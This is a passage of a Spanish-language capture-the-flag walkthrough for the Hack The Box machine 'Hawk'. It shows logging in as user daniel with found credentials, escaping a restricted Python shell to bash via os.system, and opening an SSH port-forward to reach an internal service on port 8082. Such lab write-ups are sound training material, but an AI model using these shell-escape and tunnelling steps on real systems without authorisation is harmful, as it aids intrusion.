 ![](/.gitbook/assets/hawk9.png)

La usamos con el usuario daniel y nos devuelve una consola python:

```bash
www-data@hawk:/var/www/html$ su daniel
Password: 
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("/bin/bash")
daniel@hawk:/var/www/html$ 
daniel@hawk:/var/www/html$ id
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
daniel@hawk:/var/www/html$ 
```

Al tener credenciales podemos crear un tunel a la máquina y nos tramemos el puerto 8082.

```bash
┌──(kali㉿kali)-[~/HTB/Hawk]
└─$ ssh daniel@10.10.10.102 -L 8082:127.0.0.1:8082
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

```
